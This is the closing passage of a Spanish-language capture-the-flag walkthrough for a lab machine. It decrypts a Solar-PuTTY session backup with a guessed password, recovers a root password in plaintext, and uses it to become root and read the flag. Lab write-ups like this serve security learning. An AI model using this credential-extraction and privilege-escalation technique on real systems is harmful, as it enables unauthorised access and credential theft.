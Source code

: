 ```
C:\Users\delo\Desktop\SolarPuttyDecrypt_v1>.\SolarPuttyDecrypt.exe sessions-backup.dat estrella
```

```json
{
  "Sessions": [
    {
      "Id": "066894ee-635c-4578-86d0-d36d4838115b",
      "Ip": "10.10.11.37",
      "Port": 22,
      "ConnectionType": 1,
      "SessionName": "Instant",
      "Authentication": 0,
      "CredentialsID": "452ed919-530e-419b-b721-da76cbe8ed04",
      "AuthenticateScript": "00000000-0000-0000-0000-000000000000",
      "LastTimeOpen": "0001-01-01T00:00:00",
      "OpenCounter": 1,
      "SerialLine": null,
      "Speed": 0,
      "Color": "#FF176998",
      "TelnetConnectionWaitSeconds": 1,
      "LoggingEnabled": false,
      "RemoteDirectory": ""
    }
  ],
  "Credentials": [
    {
      "Id": "452ed919-530e-419b-b721-da76cbe8ed04",
      "CredentialsName": "instant-root",
      "Username": "root",
      "Password": "12**24nzC!r0c%q12",
      "PrivateKeyPath": "",
      "Passphrase": "",
      "PrivateKeyContent": null
    }
  ],
  "AuthScript": [],
  "Groups": [],
  "Tunnels": [],
  "LogsFolderDestination": "C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"
}
```

En el archivo desencriptado encontramos un campo: `"Password": "12**24nzC!r0c%q12"` con el que podemos intentar autenticarnos como root.

```
su root
Password: 12**24nzC!r0c%q12
```

Ya como root podemos leer la flag de root.

```
cd
cat root.txt
```

Tras acabar la máquina no olvides eliminar la línea del `/etc/hosts` correspondiente a la máquina para evitar que se acumulen líneas con cada máquina que hagas.

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.
